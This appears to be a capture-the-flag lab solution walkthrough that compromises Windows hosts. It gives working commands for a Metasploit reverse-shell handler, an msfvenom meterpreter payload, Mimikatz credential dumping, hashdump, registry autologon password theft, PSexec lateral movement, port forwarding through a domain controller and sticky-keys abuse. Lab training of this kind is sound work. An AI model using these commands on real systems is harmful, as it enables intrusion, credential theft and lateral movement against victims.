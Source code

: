 # Sticky Phish Are Key Solution

_Note: IP addresses in this guide may change due to DHCP. Simply replace IP addresses in the guide with the correct ones in your environment_


The solution we will build will follow a process of:  

1. Setting up a reverse shell listener with Metasploit
1. Crafting a malicious program with msfvenom
1. Use Metasploit to interact with targeted hosts


## Section 1 - Reverse Shell Listener

This reverse shell listener (handler) will listen for a metasploit

1. Start the Metasploit Console --    `msfconsole -q`
1. Start using a handler  --   `use exploit/multi/handler`
1. Configure the handler options - the meterpreter payload below will spawn an interactive meterpreter session where the victim is initiating a TCP session with the attacker   
 ```
set payload windows/x64/meterpreter_reverse_tcp  
set lhost 192.168.1.201
set lport 4444
``` 
> _change the IP address if needed. Port number is your choice_
4. Start the listener as a background job  --  `exploit -j`

<img src="img/image1.png">


## Section 2 - Craft Malicious Payload

1. Use MSFVenom to create a malicious exe. This exe will start a meterpreter session which connects back to our Kali machine from the victim. The malware will prepend a migration into another process so the connection to the attacker is still running when the malicious process dies. Run the command:  
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.201 lport=4444 prependmigrate=true prependmigrateproc=calc.exe -f exe > malware.exe`  

<img src="img/image2.png">

2. Copy the malicious program over to the FTP server at ftp://ftp.challenge.pc

After copying the program, return to the Metasploit Console window. After a few seconds, you should see a session is started.

<img src="img/image3.png">


## Section 3 - Interacting with targeted hosts

1. Interact with the new Meterpreter session that was created:  ` sessions -i 1`
1. Navigate to the `C:\\token` directory on the remote machine and view the user token and submit the string.  (_There may be some erroneous characters before the token. Ignore these_)

<img src="img/image4.png">

3. Load the Kiwi module into Meterpreter to be able to use Mimikatz. This will be used to dump credentials on the target machine.   `use kiwi`

<img src="img/image5.png">

4. Use the following command to dump credentials with Mimikatz.   `kiwi_cmd "sekurlsa::logonPasswords"`  

<img src="img/image6.png">

5. Scroll through the output to look for the plaintext password of the Challenge domain administrator. 

<img src="img/image7.png">

If Mimikatz does not show any plaintext passwords (i.e., if there are only hashes shown), there is another way to get a plaintext password. 

6. Run the `hashdump` command from the Meterpreter shell. Notice that there is a "DefaultAccount" entry which has the same hashes as the Administrator account. This means that credentials to login to this account might be in the registry. 

7. Drop into a system shell from Meterpreter with the `shell` command. The type `powershell` to switch to Powershell from Command Prompt. 

8. Query the auto-login registry location and find plaintext credentials. 

<img src="img/image11.png">
<img src="img/image12.png">


9. Background the Meterpreter session to interact with Metasploit again: `background`.  (exit the powershell and command prompt windows with the `exit` command if you needed to enter those shells) 

10. Interact with the Windows PSexec exploit module. Set the payload options.

<img src="img/image8.png">

11. Set the exploit options for the PSexec exploit and launch it as a background job

<img src="img/image9.png">

12. Interact with the new Meterpreter session and retrieve the token. 

<img src="img/image10.png">


Next, we can move on to attacking the Dev box. We know the Dev box allows RDP only from the Domain Controller.  We can forward/relay traffic from the attacker machine through the domain controller. 

1. Interact with the Meterpreter Session you have on teh Domain Controller:  `sessions -i 2`

2. Setup a port forward/relay through the Domain Controller to the Dev machine (192.168.1.202) by entering the following command from the Meterpreter prompt:  
`portfwd add -l 3389 -p 3389 -r 192.168.1.202`  
This command will forward traffic bound for the Kali system's port 3389 through the Meterpreter session on the Domain Controller to port 3389 on the Dev box. 

3. Use the `rdesktop` command on Kali to access the Dev box via the port forward. `rdesktop 127.0.0.1:3389`. This will result in a RDP connection to the Dev machine. 

4. Using the hint the title `Sticky Phish Are Key`, activate sticky keys through the remote desktop by pressing shift 5 times in a row. (You may have to disable that sticky keys shortcut on your host machine to get this to work).  You will be presented with a System Level command prompt which can read the token. 